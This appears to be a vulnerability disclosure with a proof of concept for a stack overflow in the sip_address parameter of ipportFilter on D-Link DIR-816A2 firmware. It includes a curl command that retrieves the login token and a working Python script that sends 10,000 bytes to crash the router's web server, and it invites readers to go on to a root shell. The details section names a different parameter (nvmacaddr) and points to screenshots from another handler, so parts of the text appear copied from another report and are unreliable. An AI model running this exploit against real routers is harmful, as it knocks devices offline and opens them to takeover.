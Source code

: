 # Affected Version
Dlink DIR-816A2_FWv1.10CNB05
# Vulnerability Description
Dlink DIR-816A2_FWv1.10CNB05 was discovered to contain a stack overflow via parameter sip_address in ipportFilter.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/AllPro.aspx

# Vulnerability Details
When the program processes parameter nvmacaddr, it uses the size of the parameter string as maxlen, which will cause a buffer overflow.  
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/form2Dhcpip_cgi/0.png)


As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
We need to get the tokenid first  
<pre>
curl http://192.168.0.1/dir_login.asp | grep tokenid
</pre>
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of goahead process.  

<pre>
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/ipportFilter'

data = {
    'tokenid' : tokenid,
    'sip_address' : 'a' * 10000, 
    'mac_address' : '00:1A:2B:3C:4D:5E',
    'sFromPort' : '1',
    'dip_address' : '1',
    'dFromPort' : '1',
    'week_select_all' : '128'
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/form2Dhcpip_cgi/1.png)  

And you can write your own exp to get the root shell.